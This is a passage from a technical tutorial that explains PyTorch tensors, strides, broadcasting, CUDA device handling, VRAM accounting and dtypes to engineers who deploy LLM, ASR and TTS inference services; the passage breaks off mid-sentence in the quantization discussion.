


Audience: you already run vLLM / ASR model / TTS model, you know Python cold, but you've never sat down with PyTorch itself.
Goal: understand the layer your inference stack stands on — enough to read it, debug it, and tune it. Not to learn how to train models from scratch.
Scope of this part: only PyTorch itself + what a model is on disk. The engine-layer matters — vLLM / Xinference / ASR / TTS — are in Part 2.
One rule for the whole document: training-side material appears only when it explains some inference-side phenomenon or decision. You won't read aboutoptimizer.step()here.
Test environment: anything marked "measured" was run on torch 2.13 / transformers 5.14.1 (version numbers scattered through the text refer to these two; thefit()check in §0.5,torch.int4in §3, and the shard default andtotal_sizein §7 were checked on torch 2.14 / transformers 5.17 / huggingface_hub 1.31). APIs move; treat these as the baseline when you re-verify later.
Why not just read one of the PyTorch books
Because almost all of them answer a different question: how to build a model from scratch and train it.
Take the most representative one, Manning's Deep Learning with PyTorch (first edition 2020, second edition 2026 adding transformers and generative models). Its skeleton is: introduce tensors → turn real data into tensors → the mechanics of learning (gradient descent) → build a network → convolutions → a six-chapter end-to-end training project (lung-CT nodule detection) → one final chapter on deployment. The official tutorial What is torch.nn really? points the same way: hand-write a working network with bare tensors, then swap in nn.Module / optim / DataLoader one at a time so you see what hand-written code each abstraction replaces.
They're all well written; the problem is where they land — the destination is loss.backward() and optimizer.step(), i.e. "train a model". You already have Qwen3, SenseVoice, F5-TTS that someone else trained; your questions are what is this model on disk, how do I compute VRAM, why does this traceback say view is incompatible, why doesn't throughput rise when I add concurrency. The two lines barely intersect, which is why those books start to feel irrelevant by chapter three — that's not a willpower problem.
There's a practical issue too: the one deployment-related chapter in such books is usually the chapter that goes stale fastest (the 2020 edition covers Flask + TorchScript + ONNX; TorchScript is now on a deprecation path, and the HuggingFace ecosystem and vLLM didn't exist yet).
One exception worth noting up front: the day you need to fine-tune a model (say, LoRA on Qwen), that half of the book suddenly becomes relevant — because then you are updating weights, and the whole autograd machinery comes back (§4 gives this criterion). Until then, that line can wait.
Reading map
Read in order and the line closes on itself: tensor layer → model layer → run one forward → what this model is on disk.
| Section | What question it answers | |
|---|---|---|
| §0.5 Division of labor with sklearn | When should I use PyTorch, and when is sklearn enough? | required |
| §1 Tensor | What is a tensor, really? Why view size is not compatible? Why does broadcasting not error when it's wrong? |
required |
| §2 Device | Why doesn't nvidia-smi match my arithmetic? Why must timing use synchronize? |
required |
| §3 dtype | What's the difference between bf16 and fp16? Will this model fit on my card? | required |
| §4 Autograd | Why does inference use so much less VRAM than training? What do eval() and inference_mode() each control? |
required |
| §5 nn.Module | Where do keys like model.layers.0.self_attn.q_proj.weight come from? Would one more hidden layer help? |
required |
| └ Appendix One | What else is in torch.nn? Why won't some tensors move with .to("cuda")? |
recommended |
| └ Appendix Two | Where does the .T in x @ W.T come from? |
skippable |
| §6 One forward pass | Put the first five sections together: what hand-written inference looks like | required |
| §7 Model files | What does each file in the directory I downloaded do? .safetensors vs .pt? |
required |
| §8 transformers | With PyTorch in hand, why transformers? What exactly does it add? | required |
| §9 Troubleshooting table | What to check first when something errors | lookup |
| §10 Hands-on checklist | 30 minutes to verify you actually got it | hands-on |
| §11 Mental model | One page to take away | wrap-up |
| Appendix | What's wrong with "it's all just matmul"? Does structure matter? (includes a controlled experiment that needs no download and runs in seconds) | optional |
First read: skip Appendix Two and the appendix at the end; read the rest in order. Coming back to look something up: go straight to the §9 table — every entry points back to its section.
0. One-sentence positioning
PyTorch = NumPy + GPU + automatic differentiation (autograd) + a standard container for models/weights (nn.Module).
When you do inference, the autograd half is basically switched off. What you actually deal with every day is the first three: tensors, device, dtype, memory. So that's where this guide spends its weight.
Analogies to things you already know:
torch.Tensor≈ thenumpy.ndarrayyou use in audio / signal processing, plus two extra attributes:.deviceand.requires_grad.nn.Module≈ a "callable object that carries weights"; itsstate_dictis its entire set of weights (literally what lives inside a.safetensorsfile).- vLLM / F5-TTS / FunASR ≈ networks someone built out of
nn.Moduleplus a serving/scheduling layer. PyTorch is their shared substrate.
0.5 What it doesn't do: the division of labor with sklearn
Let's settle where sklearn and PyTorch each apply first, so the nagging question "then what was the sklearn I used all this time?" doesn't keep coming back.
The simplest test is what your data looks like:
A table (rows = samples, columns = named quantities: age, amount, frequency) → sklearn
A pile of audio / text / image files → PyTorch
(That's the beginner's rule of thumb — good enough, not precise. An [N, 1024] matrix of vectors is also "a table"; its columns have no names, and sklearn works on it fine — the end of this section does exactly that. The real criterion is in the paragraph below on "who supplies the candidate space".)
| sklearn (and tree libraries with the same interface) | PyTorch | |
|---|---|---|
| Data shape | Tabular: columns are features with existing meaning | Unstructured: no ready-made "features" in the raw signal |
| Data volume | Works well from hundreds to hundreds of thousands of rows | Training from scratch needs far more; but this doesn't hold with pretrained models (see below) |
| Typical algorithms | Logistic regression, SVM, random forest, gradient-boosted trees, k-means, PCA | Neural networks of any structure |
| Interface | fit(X, y) in one line; the training loop is hidden |
The core makes you write the training loop, loss and optimizer yourself — but that's only the core, see the second note under the table |
| Hardware | Single-machine CPU; data must fit in memory | GPU / multi-GPU / streaming |
| How a model is stored | joblib / pickle (the same thing as §7's .bin, with the same security and versioning problems) |
state_dict → safetensors (§7) |
The parenthetical in the header, "tree libraries with the same interface", needs one sentence: XGBoost / LightGBM / CatBoost are not sklearn. They're independent libraries that merely offer an sklearn-style
fit / predictinterface; sklearn's own gradient-boosted tree isHistGradientBoostingClassifier. The distinction has a practical consequence — XGBoost / LightGBM support GPU training, so "single-machine CPU" in the hardware row is true only of sklearn proper.
One more, so the "interface" row isn't mistaken for the dividing line: "does it have
fit()" is not what separates the two. torch proper really doesn't have one —hasattr(torch, "fit")andhasattr(nn.Module, "fit")are bothFalseon 2.14 — but the wrapper layers hand youfit()anyway: skorch's entire selling point is disguising a PyTorch model as an sklearn estimator (NeuralNetClassifier(...).fit(X, y), which you can drop straight intoGridSearchCVandPipeline); PyTorch Lightning isTrainer.fit(model, dataloader); fastai islearn.fit_one_cycle(...). What an API looks like can be wrapped any way you like; the real dividing line is in the next subsection.
A transaction's amount, geo-distance and frequency are already three named numbers — feed them to a random forest and you're done, no neural network needed. An email, a voice clip, an image are not naturally "a few features".
But sklearn also extracts features — the real difference is "who supplies the candidate space"
That rule of thumb is easily misread as "sklearn can only eat ready-made features". It can't be. "Extracting features" comes in three tiers, split by who supplies the candidate space, and sklearn owns the first two:
Tier 1: humans supply the candidates and humans pick. This is feature engineering in the classic sense: people design features from their understanding of the business — amount / geo-distance / frequency in fraud control — then standardize, bin, build cross terms. Images and text can be done this way too, and historically were: SIFT + SVM for vision, TF-IDF + logistic regression for text (SIFT is a human-designed local image descriptor; TF-IDF is a text vector weighted by "term frequency × rarity"). That was the mainstream before deep learning.
Tier 2: the candidates are given; the algorithm picks, weights and combines within them. With many tables you have no idea which columns matter — a mass spectrometer gives you thousands of m/z channels, a proteomics run gives thousands of proteins, and you have a few dozen samples. The columns come from the instrument; nobody knows which ones are meaningful, or even whether "the meaningful thing" is a few columns or a combination of them. Here sklearn is doing the feature-finding: SelectKBest screens columns by a statistic, L1 logistic regression drives irrelevant coefficients to zero, random forests report importances, PCA squeezes thousands of columns into a few components. All of this is "the algorithm extracting features from data", not a human thinking them up. But note the limits of what it can do: select a subset of columns, weight columns, take linear combinations of columns, split on column thresholds — the result is always a function of these columns; it never leaves the candidate space that the table's columns define. And the human prior hasn't disappeared, it has changed form: L1 is the assumption "only a few columns matter", a linear model is the assumption "additive", a tree is the assumption "piecewise constant" — choosing the model and tuning the penalty is supplying that prior.
Tier 3: the network constructs the candidate space itself. On pixels and waveforms there are no "columns" to pick — a single pixel or a single sample means nothing to the task. Each layer of the network generates representations the previous layer didn't have (edges → textures → parts → objects), and the direction of that generation is decided by the task's gradient. Humans supply only a structural prior (convolutions for images, attention for sequences — the appendix at the end covers this); the representation trains itself.
Put another way, judged on three properties, every Tier 2 method is missing at least one:
| Can it create new coordinate directions? | Are the directions decided by the task? | Can the representation it builds be stacked further? | |
|---|---|---|---|
| Standardization, binning | ❌ No — per-column transforms, each column scaled / discretized on its own; no combinations of columns | ❌ | ❌ |
| PCA (and ICA, NMF and similar dimensionality reduction) | ✅ Yes (a linear combination of columns is a new direction) | ❌ No — PCA only looks for the direction of maximum variance; labels never enter | ❌ |
SelectKBest, tree importances, gradient-boosted trees |
❌ No — they only select along, or split on, the existing axes; what they build is at most rectangles bounded by those axes | ✅ Yes | ❌ |
| Logistic regression, linear SVM, LDA, PLS (L1 variants included) | ✅ Yes — the decision function w·x is itself a new direction |
✅ Yes | ❌ Only this one layer: that direction is the final output; there's no intermediate representation to hand to a next layer |
| Neural network | ✅ Yes | ✅ Yes | ✅ One layer's representation feeds the next, with a nonlinearity in between, so stacking doesn't collapse |
What makes Tier 3 special is that all three hold at once, and the third is the key. A linear classifier satisfies the first two — the w it learns is a new direction decided by the task — but it has only one layer; the direction it builds is directly the answer, and nothing stacks on top. A linear classifier is a one-layer neural network; §5 will show that stacking linear layers alone is no stacking at all (two Linears with no ReLU between them collapse into one) — so "can it stack" and "does it collapse when stacked" are the same question, and nonlinearity is the entry ticket to Tier 3.
This also explains, in passing, why gradient-boosted trees aren't Tier 3: each tree's split is indeed chosen against the current loss — entirely task-driven — but the only question it can ever ask is "is column 37 greater than 0.8?" — the coordinate system came from the instrument; it can only cut along it.
So the dividing line is: the first two tiers search within "the given columns"; the third tier manufactures the "columns" themselves. A table's columns already carry meaning ("geo-distance" and its relation to fraud is clear to a person; human priors are valuable), or are at least a meaningful unit of measurement (one gene's expression level), so searching among the columns is enough, and feature engineering plus tree models remain very effective. Pixels and waveforms carry no ready-made meaning; people can't think up good enough features and there are no columns to pick from, so "let the network build its own" won decisively.
(Mechanically this is autograd's doing: in deep learning the loss's gradient flows all the way back to the earliest layers, so "what features the front should extract" is twisted into shape by the task at the back, one layer twisting the next. sklearn's Tier 2 also learns from data, but what it learns is how to pick and cut within given coordinates, not the coordinates themselves. §4 covers the mechanism.)
Two common misconceptions
- The sklearn ecosystem is not "an outdated PyTorch". On tabular data, gradient-boosted trees like XGBoost / LightGBM still routinely beat neural networks. For risk control, churn prediction and the like, deep learning is often not worth it.
- sklearn's
MLPClassifieris for teaching / baselines — no GPU, no custom architecture. For real neural networks, switch to PyTorch.
And they're usually used together, not either/or
First, the nature of these three points: they're the common division of labor between the two libraries in practice, not my own measurements. The experiment in the appendix at the end is a live example of the first one (sklearn fetches data and computes metrics, PyTorch builds the model); the other two are "good to know it exists".
- Preprocessing and evaluation:
StandardScaler,train_test_split,classification_report,confusion_matrix,roc_auc_score— PyTorch proper provides no metric computation (there's a separatetorchmetricspackage, but for classification / regression / clustering metrics everyone just uses sklearn). Note that sklearn covers only those categories: ASR character / word error rate (CER / WER) needs a library likejiwer, TTS has no ready-made objective metric, LLM evaluation is a separate world — don't expect sklearn to cover the metrics on your stack. - Analyzing vectors: a text-encoding model (PyTorch) produces a pile of vectors → sklearn does clustering, PCA, visualization to check the data distribution makes sense. (The handoff is in §1: sklearn only accepts numpy on CPU; tensors must go through
.cpu().numpy()first.) - Where the "data volume" exception in the table comes from: a common practice is encoder outputs vectors (PyTorch) → an sklearn logistic regression as the head. A few hundred samples suffice because the encoder was already trained on massive data; you're only training the last layer. This is written here not as a recommendation but to make one point directly relevant to you: "deep learning needs big data" is about training from scratch; it doesn't apply when you use someone else's trained weights. (The "backbone + a head on the end" structure is explained fully in §5.)
On your stack: LLM, ASR, TTS, embedding, rerank — all unstructured data; the main line is PyTorch throughout. sklearn is a helper for you: computing metrics, analyzing vectors, running small-scale comparisons. The experiment in the appendix at the end is a live example of this split — sklearn fetches the data, PyTorch builds the model.
Finally, for a deployer this choice has already been made for you. The above is "I have data, which should I choose"; your actual situation is running weights someone else trained — Qwen / FunASR / F5-TTS — and the model author wrote them in PyTorch, so you run them in PyTorch, regardless of the input's shape. Everything after this point in the document is built on that situation.
A preview: the TinyNet example in the next section runs head-on into this criterion — three numeric features, binary classification; by the standard above it should be sklearn. That's not a badly chosen example; §5 says so explicitly.
1. Tensor: the core data structure
The most fundamental sentence: a tensor = a flat 1D block of memory (a Storage) + metadata (shape + stride) telling PyTorch how to read that block as N-D. No matter how many dimensions you design, physical memory is always a straight line — hardware memory is linearly addressed; there's no such thing as "2D memory." Dimensionality is purely an interpretation layer.
PyTorch makes this explicit as two layers:
- Storage: the flat 1D buffer that actually holds the data (
t.untyped_storage()shows it). - Tensor = a view:
storage + (shape, stride, storage_offset, dtype).
This model is the foundation: multiple Tensors can be different views over the same Storage — that one fact explains every "zero-copy vs copy" behavior below (see the stride subsection).
The metadata a tensor carries — these attributes are the ones you'll inspect constantly when debugging:
import torch
x = torch.randn(2, 3) # 2x3 random tensor, float32 by default, on CPU
print(x.shape) # torch.Size([2, 3]) — shape
print(x.dtype) # torch.float32 — data type
print(x.device) # cpu — which device it's on
print(x.requires_grad) # False — whether to build a graph
Relationship to NumPy (zero-copy interop)
import numpy as np
a = np.array([1.0, 2.0, 3.0])
t = torch.from_numpy(a) # shares memory! mutating t mutates a (CPU only)
back = t.numpy() # also shared
On CPU, from_numpy / .numpy() are zero-copy (they share the same buffer). Keep this in mind during pre/post-processing (ASR audio PCM, TTS output waveforms): changing one changes the other. Once a tensor is on the GPU, .numpy() errors out — you must .cpu() first. And if the tensor still carries a gradient (requires_grad=True, e.g. a model output obtained outside inference_mode), .numpy() also errors with Can't call numpy() on Tensor that requires grad — .detach() first (§4).
A trap you will hit on the audio side: numpy defaults to float64, torch defaults to float32. The waveform from soundfile.read is float64, and torch.from_numpy faithfully hands you a float64 tensor — feed that into a float32 / bf16 model and you get the dtype mismatch in §9 ②. And int16 PCM needs / 32768.0 normalization first. So before handing numpy data to a model, make a habit of adding .float() (or .to(model_dtype)):
wav, sr = soundfile.read("a.wav") # wav.dtype == float64
x = torch.from_numpy(wav).float() # → float32; this step is no longer zero-copy (changing dtype must copy)
The one shape concept worth understanding: contiguous / stride
stride = for each dimension, "to step one index, jump how many elements in the flat memory." Example, a 2×3, row-major (C-contiguous):
memory: [a, b, c, d, e, f] (flat)
shape = (2, 3) # laid out as:
[a,b,c
d,e,f]
stride = (3, 1) ← move 1 row → jump 3 elements [a -> d]; move 1 col → jump 1 [a -> b]
element [i,j] at flat offset = i*stride[0] + j*stride[1] = i*3 + j
transpose only swaps the stride, moves no data:
x: shape (2,3), stride (3,1), memory [a,b,c,d,e,f]
x.t(): shape (3,2), stride (1,3) ← same memory, only the stride changed!
# x.t() laid out as:
[a,d
b,e
c,f]
move 1 row → jump 1 [a -> b]; move 1 col → jump 3 [a -> d] — all relative to the flat memory [a,b,c,d,e,f]
Now x.t()'s [i,j] = flat offset i*1 + j*3, reading [0,0]=a, [0,1]=d, [1,0]=b… — exactly the transpose, achieved purely by "reading differently," zero-copy, O(1). The cost: x.t() is now non-contiguous (is_contiguous() = False), because its memory order no longer matches row-major reading (i.e. elements within the same row are contiguous in memory).
x = torch.randn(2, 3)
y = x.t() # transpose — only swaps stride, no data moved; y non-contiguous
print(y.is_contiguous()) # False
z = y.contiguous() # THIS step actually copies into a new contiguous Storage
This is where view's constraint and use cases come in:
view()just reinterprets the same Storage with a new shape — no data moved, so it requires the memory layout to already read contiguously under the new shape. Callingview()on a non-contiguous tensor (e.g. after transpose) errors:view size is not compatible ... stride.reshape()= "view if possible, elsecontiguous()-copy then view" — safer;view()is stricter but guarantees zero-copy.contiguous()forces a copy into a new row-major Storage, after which view works. Common combo:x.transpose(...).contiguous().view(...).
Typical view use cases: flattening (x.view(B, -1), like MNIST / TinyConv's flatten(1)); splitting heads in attention (x.view(B, seq, n_heads, head_dim) carves the hidden dim into heads); merging dims.
This also confirms §1's opening Storage model: from_numpy/.numpy() zero-copy on CPU = sharing one Storage; .contiguous() copies = new Storage; transpose/view/slice zero-copy = same Storage, new metadata. Why you care: many CUDA kernels (attention included) require contiguous input; a view size is not compatible in a traceback is usually a missing contiguous() after a transpose/permute.
The third, implicit shape rule: broadcasting
transpose / view / contiguous above are about how one tensor can be read differently. Broadcasting is about something else: how two tensors of different shapes do an elementwise operation — and its implementation turns out to be the very same Storage + stride model.
Elementwise ops (+ - * /, comparisons) nominally require both sides to have exactly the same shape. [2,4] + [2,4] is fine; [2,4] + [4] shouldn't be. But in practice you constantly want to apply "a small thing" to "a pile of things":
- a scalar to a whole tensor:
wav / 32768.0(PCM normalization) - a row of numbers to every row: add the same bias b to every sample in the batch
- a column of numbers to every column: divide every sample in the batch by its own norm
Without broadcasting you'd have to manually copy the small one up to the big one's shape before computing. Broadcasting = doing that for you, without actually copying memory.
You've already used it. The batched forward in §5:
H = [[2,5,1,2],
[1,1,1,1]] # [batch=2, in=4]
H @ W2.T + b2 # b2 is [out] — one-dimensional
H @ W2.T comes out [2,2], b2 is [2] — different shapes, so how can they add? Broadcasting: it treats b2 as "add the same b to every row". With different numbers it's clearer:
H = [[2,5,1,2], b = [10,20,30,40] ← b is only one row
[1,1,1,1]]
H + b = [[12,25,31,42],
[11,21,31,41]] ← b "acts as if" copied to two rows
The rule in one sentence: align from the last dimension backwards; each dimension must either match or one side must be 1 (a missing dimension counts as 1). If that holds it expands automatically; only if it fails do you get an error.
The mechanism: stride = 0. Broadcasting b (shape [4]) to [2,4], measured:
import numpy as np
b = np.array([10,20,30,40]) # shape (4,) strides (8,)
bb = np.broadcast_to(b, (2,4))
print(bb.shape, bb.strides) # (2, 4) (0, 8) ← stride 0 on dim 0
print(bb.base.size) # 4 ← still just those 4 elements underneath
stride = 0 means "to step one index along this dimension, jump 0 elements" — stay put and read the same data again. So "copied to two rows" is fake: physical memory holds one row; the second row is read by a pointer that doesn't move.
This is the same trick as transpose in another variant, so one model explains three things:
| Operation | What it does to Storage | What it does to metadata |
|---|---|---|
transpose / .t() |
untouched (zero-copy) | swaps strides |
contiguous() |
allocates a new one (real copy) | reorders to row-major |
| broadcasting | untouched (zero-copy) | sets the expanded dimension's stride to 0 |
So broadcasting is zero-copy and costs no extra VRAM — [2,4] + [4] never materializes a [2,4] copy of b.
Don't confuse it with matmul's "inner-dimension alignment" (Appendix Two is about a different thing). The two rules are easy to tangle; keep them apart:
| Governs | Rule | Example | |
|---|---|---|---|
| broadcasting | elementwise ops | from the last dim backwards, equal or 1 | [2,4] + [4] ✓ |
| matmul | matrix multiply | A's last dim = B's first dim | [2,4] @ [4,2] ✓ |
The whole of Appendix Two — why x @ W.T needs that .T — is about the latter, nothing to do with broadcasting. Both happen inside one nn.Linear: x @ W.T is inner-dimension alignment, + b is broadcasting.
Why you care: it's too forgiving — it doesn't error when it's wrong. Broadcasting only checks "can the shapes be aligned"; it never checks "is this what you meant". Three shapes that bite:
① [N] meets [N,1] → silently balloons to [N,N], disguised as OOM. The audio side is where this happens most, because PCM is sometimes [samples], sometimes [1,samples] or [samples,1] (soundfile / torchaudio / librosa don't agree on the convention). Measured:
[16000] / [16000, 1] → (16000, 16000) = 2048 MB expected: 64 KB
Aligning from the back by the rule: 16000 vs 1 → expand; nothing vs 16000 → expand. Perfectly legal, and you get a 2 GB matrix. This one is worth the most, because it reports OOM, not a shape error — you'll go chasing VRAM when the real problem is shape alignment (§9 ⑦).
② Normalizing along the wrong axis → broadcasting succeeds, the shape is identical, the result is all wrong. The output of a text-encoding model (BGE and the like) usually needs L2 normalization first so that dot products give cosine similarity:
emb / np.linalg.norm(emb, axis=1, keepdims=True) # right: normalize each row (each sample)
emb / np.linalg.norm(emb, axis=0) # wrong: normalizes along the batch
The second line raises no error at all. Measured per-row norms after normalization — correct gives [1, 1, 1, 1], wrong gives [1.011, 1.153, 1.541, 1.809]. Retrieval results drift, and all you'll conclude is "this embedding model is mediocre".
(A counterintuitive detail: forgetting keepdims and writing [N,D] / [N] does honestly error when D ≠ N, which saves you; only when the batch happens to equal the dimension ([8,8] / [8]) does it fail silently. So this trap is "usually errors, occasionally bites".)
③ Mask dimensions don't line up. Attention scores are [B, heads, seq, seq], the mask is [B, seq]; to broadcast it up you first need mask[:, None, None, :] to make it [B,1,1,seq]. You don't write this yourself, but when you read FunASR / F5-TTS modeling code, recognizing that the string of [:, None, None, :] and unsqueeze(1) is there to manufacture broadcasting dimensions makes it stop looking like gibberish.
One sentence to close: broadcasting is "the small one automatically spreads over the big one", implemented via stride = 0, zero-copy; its risk isn't an error, it's shapes that happen to align and produce a result you didn't want — so when you print shapes while debugging, check "was this broadcast?" alongside them (§9).
2. Device: CPU / GPU and the thing you care about most — VRAM
Deep learning requires massive parallelism, so the GPU is home turf.
dev = "cuda" if torch.cuda.is_available() else "cpu"
x = torch.randn(1024, 1024)
x = x.to(dev) # move to GPU; equivalent to x.cuda()
y = x @ x # matmul, computed on the GPU
With multiple GPUs, "cuda" means "the current device" (default cuda:0). To pick a card write "cuda:1", or set CUDA_VISIBLE_DEVICES=1 outside the process so it only sees that one card (inside the process it's then cuda:0). The latter is the standard deployment practice — vLLM and Xinference both assign cards this way.
Cross-device ops error out immediately
a = torch.randn(3).cuda()
b = torch.randn(3) # still on CPU
a + b # RuntimeError: Expected all tensors on same device
This is the most common low-level bug in inference services: some buffer / mask / position_ids forgot its .to(device).
Why does that one get missed? model.to("cuda") clearly moved all the weights. Because that tensor was never registered — it's just a plain Python attribute (self.mask = torch.tril(...)), and .to() has no idea it exists. For .to() to know about a tensor that doesn't take part in training, it must be registered with register_buffer. Registration has four tiers, and bypassing any of them fails silently — see the end of Appendix One.
CUDA is asynchronous (must-know for your benchmarking)
GPU ops are dispatched asynchronously — when a Python line returns, the GPU may not have finished. So wrapping model(x) in time.time() measures dispatch time, not execution time. Correct form:
torch.cuda.synchronize() # wait for the GPU to finish prior work
t0 = time.perf_counter()
out = model(x)
torch.cuda.synchronize() # wait again for this to finish
print(time.perf_counter() - t0)
When you benchmarked vLLM / F5-TTS from the client side you sidestepped this (end-to-end time includes the sync naturally). But the moment you want in-process kernel-level timing, synchronize() is mandatory.
The other half of asynchrony: some operations "implicitly synchronize". .item(), .cpu(), .numpy(), print(tensor), if tensor > 0: — anything that brings a GPU value back into Python has to wait for the GPU to finish first. Two consequences:
- Performance: an
.item()on every step of a loop (say, peeking at the logits per token) breaks the GPU pipeline every time. In an inference loop, don't fetch back if you don't have to; collect and.cpu()once at the end. - Debugging: errors inside a CUDA kernel (out of bounds, illegal memory access) are thrown asynchronously, so the traceback points at the line of the next synchronization point, not the line that actually failed. When you see
CUDA error: device-side assert triggeredor similar and the reported line is obviously innocent, rerun with the environment variableCUDA_LAUNCH_BLOCKING=1so every kernel runs synchronously and the error lands where it belongs (debugging only — it's much slower).
VRAM: reserved vs allocated (explains the "numbers don't add up" you've seen)
torch.cuda.memory_allocated() # bytes actually held by live tensors
torch.cuda.memory_reserved() # bytes PyTorch has "reserved" from the driver (its cache pool)
torch.cuda.max_memory_allocated()
torch.cuda.empty_cache() # return reserved-but-idle memory to the driver (rarely needed)
Key mechanism: PyTorch has its own caching allocator. It grabs large blocks of VRAM from CUDA and slices/reuses them itself, avoiding frequent cudaMalloc. So reserved is usually larger than allocated. That's why "my model is only a few GB but nvidia-smi shows a big chunk used" — it's not a leak, it's the cache.
But to make the numbers actually add up, two more items are missing. A process's footprint in nvidia-smi is, in full:
what nvidia-smi shows ≈ reserved (PyTorch's cache pool, which includes allocated)
+ CUDA context (a fixed few hundred MB per process, in no torch counter at all)
+ non-PyTorch allocations (cuBLAS workspace, NCCL buffers, other libraries' own cudaMalloc)
So even if empty_cache() drives reserved to zero, nvidia-smi won't go to zero — those few hundred MB of context stay as long as the process lives. With multiple cards or multiple processes (e.g. vLLM's tensor parallel, one process per card), every process carries its own context, and that has to be counted separately under "overhead" in §3.
This is exactly why vLLM bypasses the allocator: at startup vLLM grabs a large slab of VRAM via gpu_memory_utilization and manages it itself (PagedAttention's paged KV cache), instead of letting PyTorch's general-purpose allocator handle the KV cache. Your earlier findings — "ECC-off gives ~6.3% more VRAM," "~4.4 MiB per concurrent slot" — are precisely you quantifying the behavior of this self-managed memory.
3. dtype and precision: fp32 / fp16 / bf16 / int8
This is the dial that directly governs your VRAM footprint and throughput — the section you'll resonate with most.
| dtype | bytes | range | precision | common inference use |
|---|---|---|---|---|
float32 |
4 | large | high | training default, CPU |
float16 |
2 | narrow (overflows easily) | medium | inference on older GPUs |
bfloat16 |
2 | large (same exponent bits as fp32) | lower mantissa | default for modern LLM inference |
float8 (e4m3 / e5m2) |
1 | small | low | native from the L20 (Ada) onwards; vLLM's --quantization fp8 and --kv-cache-dtype fp8 are this |
int8 |
1 | — | quantized | weight / KV-cache quantization |
int4 (AWQ / GPTQ) |
0.5 | — | quantized | weight quantization; in practice 8 four-bit weights are packed into one int32 and unpacked on the fly by the quantization kernel (the name torch.int4 does exist, but don't be fooled — see the note under the table) |
(fp8 and int8 are both 1 byte but not the same tier: fp8 is floating point, with exponent bits, so its dynamic range is far larger than int8's and it's far more tolerant of the value distribution — vLLM's fp8 can quantize online at load time with no calibration data, usually with very little precision loss; int8 / int4 generally need scale factors computed on a calibration set first (what AWQ / GPTQ releases ship is the precomputed version). That's why fp8 has become the first choice on newer cards.)
About
torch.int4(an easily misread detail): late torch 2.x did addtorch.int4/torch.uint4, plus a family ofuint1/uint2/float4_e2m1fn_x2, so you'll see them indir(torch)— don't assume the table above is wrong. But right now they're only type markers, not dtypes you can compute with:>>> torch.zeros(8, dtype=torch.int4).element_size() 1 # storage isn't compressed to half a byte at all >>> torch.zeros(4, dtype=torch.int4) + torch.zeros(4, dtype=torch.int4) NotImplementedError: "add_stub" not implemented for 'Int4'Not even addition is implemented. So seeing the name doesn't mean PyTorch natively supports int4 compute; the real work is still done by AWQ / GPTQ's packed format plus dedicated kernels.
Key points:
- bf16 vs fp16: both are 2 bytes, but bf16 trades mantissa (fractional precision) for the same exponent range as fp32, so it's far less prone to NaN/inf. Qwen3-class weights are typically bf16; when you start vLLM with
--dtype bfloat16(orauto) you're selecting this. The L20 is Ada-architecture and supports bf16 natively. - Halves your VRAM: fp16/bf16 weights are half the size of fp32. 7B params × 2 bytes ≈ 14 GB — that's your back-of-envelope formula for "will this model fit on the card":
param_count × bytes_per_param. - int8/int4 quantization: compresses weights further to 1 byte or less (GPTQ/AWQ/FP8). On the L20 (48G) this is your main lever to fit bigger models or push higher concurrency.
model = model.to(torch.bfloat16) # convert the whole model to bf16
x = x.to(torch.bfloat16) # input must match, or you get a dtype-mismatch error
Mixed precision (training-only, just be aware): torch.autocast runs some ops in half precision and keeps others in fp32 automatically, balancing speed and numerical stability.
VRAM back-of-envelope: the full budget
"Back-of-envelope" is an idiom for a rough estimate you could scribble on the back of an envelope — order-of-magnitude, not precise, meant for "does it fit?" decisions.
The params × bytes above is just the weights. The full inference VRAM budget is:
VRAM ≈ weights + KV cache + activations + overhead
- Weights =
params × bytes. bf16=2, int8=1, int4≈0.5 bytes. 7B bf16 ≈ 14GB; 7B int4 (AWQ) ≈ 3.5GB. Fixed. - KV cache (the big LLM variable) ≈
2 (K and V) × n_layers × n_kv_heads × head_dim × seq_len × batch × bytes. Grows linearly with context length × concurrency — exactly what inference engines spend their effort managing (Part 2). At long context + high concurrency it can rival or exceed the weights. (Qwen uses GQA, so n_kv_heads < n_heads, making it smaller than full multi-head.) - Activations — transient intermediates during the forward pass. During decode (§4: autograd off, no graph stored) they're tiny, basically negligible — that's the root of why inference is lighter than training. But there's one exception worth noting: during long prefill / large batch, activations can spike, especially the attention-score block which is theoretically
[batch, heads, seq, seq](grows quadratically with sequence length). FlashAttention avoids materializing this O(seq²) attention-score matrix in VRAM via online softmax, keeping it from blowing up — so "activations are negligible" strictly has a precondition, and this is one of the key reasons FlashAttention matters. - Overhead — CUDA context, framework buffers, fragmentation, and §2's "reserved-but-unused" caching pool. Reserve ~1–2GB or a fraction.
The back-of-envelope for "will it fit on an L20 (48G)": weights (fixed) + a slab for KV cache (depends on max_model_len × concurrency) + overhead, then vLLM's gpu_memory_utilization carves the rest for KV cache. The point is the order-of-magnitude judgment, not the exact number.
Quantization is orthogonal to all of this. AWQ/GPTQ quantize weight precision (packing Linear weights to 4-bit to shrink size / save VRAM); they don't touch the tokenizer / vocab / model structure. So switching to a quantized build leaves the tokenizer outputs,
